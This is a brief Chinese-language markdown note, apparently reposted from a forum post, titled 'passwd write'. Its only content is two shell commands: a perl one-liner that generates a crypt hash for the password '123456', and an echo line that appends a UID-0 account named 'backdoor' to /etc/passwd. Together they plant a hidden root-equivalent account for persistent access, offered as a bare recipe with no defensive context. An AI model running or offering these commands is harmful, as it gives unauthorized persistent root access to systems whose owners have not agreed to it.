


# passwd写入

> 原文：[https://www.zhihuifly.com/t/topic/3500](https://www.zhihuifly.com/t/topic/3500)

## passwd写入

```
perl -e 'print crypt("123456", "AA"). "\n"'
echo "backdoor:AASwmzPNx.3sg:0:0:me:/root:/bin/bash">>/etc/passwd 
```



